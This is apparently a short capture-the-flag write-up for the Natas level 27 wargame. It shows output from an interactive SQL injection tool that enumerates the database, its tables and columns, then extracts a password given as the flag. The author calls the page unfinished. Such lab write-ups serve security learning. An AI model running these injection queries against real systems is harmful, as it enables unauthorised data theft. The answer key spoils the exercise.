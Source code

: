 ```yaml
---
layout: default
title: natas27
---
```


Need to write, it used to work for me but i don't manage to make it now...
you can have a look on this script.
```python
{% include_relative scripts/level27.py %}
```

```
Enter SQL query (without 'union all'): select database()
[+] Query Results:
  - natas28
Enter SQL query (without 'union all'): select table_name from information_schema.tables where table_schema=0x6e617461733238
[+] Query Results:
  - jokes
  - users
Enter SQL query (without 'union all'): select column_name from information_schema.columns where table_name=0x7573657273
[+] Query Results:
  - username
  - password
Enter SQL query (without 'union all'): select password from users
[+] Query Results:
  - 31F4j3Qi2PnuhIZQokxXk1L3QT9Cppns
```

**Flag:** ***`31F4j3Qi2PnuhIZQokxXk1L3QT9Cppns`*** 